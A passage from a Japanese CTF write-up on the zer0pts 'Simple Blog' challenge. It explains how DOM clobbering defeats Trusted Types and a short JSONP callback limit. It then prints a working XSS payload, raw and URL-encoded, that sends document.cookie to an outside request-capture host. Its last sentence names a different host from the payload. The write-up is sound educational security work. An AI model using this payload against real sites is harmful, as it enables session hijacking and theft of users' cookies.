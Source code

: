 を放り込めばOKです。ここで、`x:`のようなスキームを指定しないと`window.callback`の値が`http://web.ctf.zer0pts.com:8003/console.log`になってしまうことに注意する必要があります。

というわけでこれらを組み合わせて
```javascript
location = "http://web.ctf.zer0pts.com:8003/?theme=" + encodeURIComponent('> <form id=trustedTypes><input name=defaultPolicy></form> <a id=callback href=\'x:console.log\'></a> <script "')
```
を手元で実行すると

![](./img/simpleblog-02.png)

のように`Array [ {…}, {…} ]`が出力されます。

あとはcookieを奪取するスクリプトを投げればいいのですが`api.php`を見ると、
```php
if (strlen($callback) > 20) {
  die('throw new Error("callback name is too long")');
}
```
このように「20文字以下」という制限があります。普通にfetch関数を使ったりすると余裕でオーバーします。

既存のコードを眺めると`jsonp`という便利そうな関数が定義されています。そこで、`callback`の値を`x:jsonp(a);`にし、DOM Clobberingで`a`の値を好きなjavascriptコードにすればうまくいきそうです。ただし、`jsonp`の第1引数はURLであるため`data:text/javascript,...`を使いました。

### 攻撃

最終的に
```javascript
encodeURIComponent('> <form id=trustedTypes><input name=defaultPolicy></form> <a id=a href=\'data:text/javascript,location=`https://enp4oaz0o4e4vlk.m.pipedream.net?cookie=${document.cookie}`\'></a> <a id=callback href=\'x:jsonp(a);\'></a> <script "')
```
をして、
```
theme=%3E%20%3Cform%20id%3DtrustedTypes%3E%3Cinput%20name%3DdefaultPolicy%3E%3C%2Fform%3E%20%3Ca%20id%3Da%20href%3D'data%3Atext%2Fjavascript%2Clocation%3D%60https%3A%2F%2Fenp4oaz0o4e4vlk.m.pipedream.net%3Fcookie%3D%24%7Bdocument.cookie%7D%60'%3E%3C%2Fa%3E%20%3Ca%20id%3Dcallback%20href%3D'x%3Ajsonp(a)%3B'%3E%3C%2Fa%3E%20%3Cscript%20%22
```
をreportすると、`https://evil.example.com`にcookieの値が投げられます。


[^1]: Simple Blogを最初に解き始めた理由は部分文字列に「Blog」が含まれていたからです。というのも、最近CSP bypass系の問題にはまっているのですがそれ系統の問題には「Blog」とか「Note」とかが問題文に含まれることが多いからです。
[^2]: 知見として得られたもので以下のものは今後のCTFでの考察に使えそうです：「複数のCSPが設定されていた場合は、既存のCSPよりさらに制限するようなポリシーしか追加できない。これはmetaタグによる設定でも同様」「`'strict-dynamic'`が指定されていたとしてもparser-insertedなscriptの挿入は認められない」「metaタグで指定されたポリシーは、その記述より前のコンテンツには適用されない」（ref. https://www.w3.org/TR/CSP3/ ）。
[^3]: 現状のCSPでは（たぶん）metaタグによるリダイレクトをブロックできないので、便利テクニックとして使ってます。[navigate-toディレクティブ](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/navigate-to)が導入されたらこの手は使えなくなるのだろうか。
[^4]: Chromeでは`\n`と`<`の両方を含むURLへのアクセスがブロックされます（ref. https://www.chromestatus.com/feature/5735596811091968 ）。日本語の資料では[こことか](https://speakerdeck.com/shhnjk/burauzasekiyuriteiji-neng-ha-baipasusareruwei-niaru?slide=24)で言及されています[^5]。ただし今回の攻撃手法がChromeでうまく動作しないのは、これが原因ではなくTrusted Typesがサポートされていることが原因です。
[^5]: ところで[Shibuya.XSS](https://shibuyaxss.connpass.com/)の過去資料を漁ってるとおもしろい情報がたくさん得られるので、次回開催が楽しみです。前回開催時はCTFをやってなくて申し込まなかったのが悔やまれます。
[^6]: 今までPythonでHTTPリクエストを投げるときには[requests](https://requests.readthedocs.io/en/master/)を使ってたのですが、最近は[httpx](https://www.python-httpx.org/)を使うように変更しました。APIはrequestsと似た感じで使いやすく、さらに標準で非同期通信にも対応していて便利です。あとこちらの方が後発で洗練されている印象を受けています（未確認です。気のせいかもしれません）。
[^7]: https://simple.wikipedia.org/wiki/Leet